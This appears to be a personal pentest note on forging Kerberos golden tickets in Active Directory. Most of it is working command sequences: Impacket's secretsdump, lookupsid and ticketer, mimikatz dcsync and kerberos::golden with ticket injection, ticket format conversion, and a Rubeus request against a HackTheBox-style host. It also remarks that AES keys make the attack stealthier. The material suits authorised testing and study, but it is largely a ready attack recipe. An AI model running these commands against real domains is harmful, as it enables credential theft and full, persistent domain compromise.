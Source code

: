 # Golden Tickets

>Silver and golden tickets are forged Kerberos tickets that can be used with pass-the-ticket to access services in an Active Directory domain.
>
**Golden ticket**: The NT hash (or AES key) of the special account `krbtgt` can be used to forge a special TGT (Ticket Granting Ticket) that can later be used with pass-the-ticket to access any resource within the AD domain.
>
In order to craft a golden ticket, testers need to find the krbtgt's NT hash or AES key (128 or 256 bits). In most cases, this can only be achieved with domain admin privileges. Because of this, golden tickets only allow lateral movement and not privilege escalation. 
>
Microsoft uses AES 256 bits by default. Using this encryption algorithm will be stealthier.
>
There are [Impacket](https://github.com/SecureAuthCorp/impacket) scripts for each step of a golden ticket creation : retrieving the `krbtgt`, retrieving the domain SID, creating the golden ticket.

```shell
# Retrieve the krbtgt NT hash or AES key
secretsdump.py -just-dc-user krbtgt -hashes 'LMhash:NThash' 'DOMAIN/DomainAdmin@DomainController'

# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used.
```shell
# Retrieve the krbtgt NT hash or AES keys
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically inject the ticket. 

#### Convert ticket to UNIX <-> Windows format
To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).
```shell
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```

[[impacket]]
```
./Rubeus.exe asktgs /ticket:ticket.kirbi /service:CIFS/DC01.GHOST.HTB /dc:GHOST.HTB /ptt /outfile:ticket.kirbi
```